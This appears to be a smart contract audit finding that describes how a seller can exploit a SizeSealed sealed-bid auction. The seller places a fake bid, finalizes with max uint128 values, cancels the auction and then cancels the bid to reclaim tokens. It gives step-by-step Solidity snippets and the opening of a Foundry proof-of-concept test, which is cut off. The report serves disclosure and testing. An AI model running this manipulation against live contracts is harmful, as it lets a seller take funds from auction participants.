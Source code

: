 A seller can manipulate the contract the similar was as I showed in the previous contract, (here is a quick recap of the exploit):

1. Create an auction with the following parameters:

```solidity
uint256 reserveQuotePerBase = 1e18 * uint256(type(uint128).max) / 1e18;
uint128 minimumBidQuote = 1;
quoteToken = new MockERC20("Dai Stablecoin", "DAI", 18);
baseToken = new MockERC20("Wrapped Ether", "WETH", 18);
baseToSell = 10000 ether;
```

1. Now the seller would create a fake bet like the following:

```solidity
seller_as_fake_bidder.bidOnAuctionWithSalt(baseToSell, baseToSell, "hello"); // want to buy
```

1. Seller would finalize and cancel the auction:

```solidity
uint256[] memory bidIndices = new uint[](1);
bidIndices[0] = 0;
seller.finalize(bidIndices, type(uint128).max ,type(uint128).max);
seller.cancelAuction();
```

1. Seller would then cancel their bet from their fake bidder contract:

```solidity
seller_as_fake_bidder.cancel(0); // cancel the bid
```

The call to cancel would be successful as the above check which I mentioned would be bypassed because `a.data.lowestQuote`  would be equal to `type(uint128).max`

The cancel Bid function would return the quoteAmount back to the fake bidder.

Full POC:

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.17;

import {Test} from "forge-std/Test.sol";
import {Merkle} from "murky/Merkle.sol";
import {FixedPointMathLib} from "solmate/utils/FixedPointMathLib.sol";

import {ECCMath} from "../util/ECCMath.sol";
import {SizeSealed} from "../SizeSealed.sol";
import {MockBuyer} from "./mocks/MockBuyer.sol";
import {MockERC20} from "./mocks/MockERC20.sol";
import {MockSeller} from "./mocks/MockSeller.sol";
import {ISizeSealed} from "../interfaces/ISizeSealed.sol";

contract SizeSealedTest is Test, ISizeSealed {

    SizeSealed auction;

    MockSeller seller;
    MockSeller seller2;
    MockERC20 quoteToken;
    MockERC20 quoteToken2;
    MockERC20 baseToken;

    MockBuyer bidder;
    MockBuyer bidder1;
    MockBuyer seller_as_fake_bidder;

    // Auction parameters (cliff unlock)
```